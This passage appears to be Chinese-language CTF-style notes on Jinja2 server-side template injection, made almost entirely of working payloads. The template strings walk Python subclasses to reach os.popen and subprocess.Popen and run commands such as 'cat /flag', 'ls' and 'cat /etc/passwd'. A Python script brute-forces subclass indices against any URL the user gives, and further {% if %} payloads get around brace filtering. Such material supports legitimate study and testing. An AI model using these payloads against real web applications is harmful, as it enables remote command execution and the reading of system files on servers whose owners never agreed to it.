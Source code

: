 ```php
{{[].__class__.__base__.__subclasses__()[69]["load_module"]("os")["popen"]("cat /flag").read()}}
```

#### subprocess.Popen模块

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'subprocess.Popen' in str(response.content):
                print(i)
    except:
        pass


```

```php
{{[].__class__.__base__.__subclasses__()[200]('ls/',shell=True,stdout=-1).communicate()[0].strip()}}
```

## 4.lipsum 

```
?name={{lipsum.__globals__.os.popen(request.args.ocean).read()}}&ocean =cat /flag
```



# 5.大括号过滤

{{}}被过略

尝试{%%}

判断语句是否能正确执行

```php
{% if 2>1 %}benben{%endif%}
```

```php
{%if "".__class__%}benben{%endif%}
```

有回显说明<font color=red>**"".\_\_class\_\_**</font>有内容

```php
{% if "".__class__.__base__.__subclasses__()[117].__init__.__globals__["popen"]("cat /etc/passwd").read() %}benben{% endif %}
```
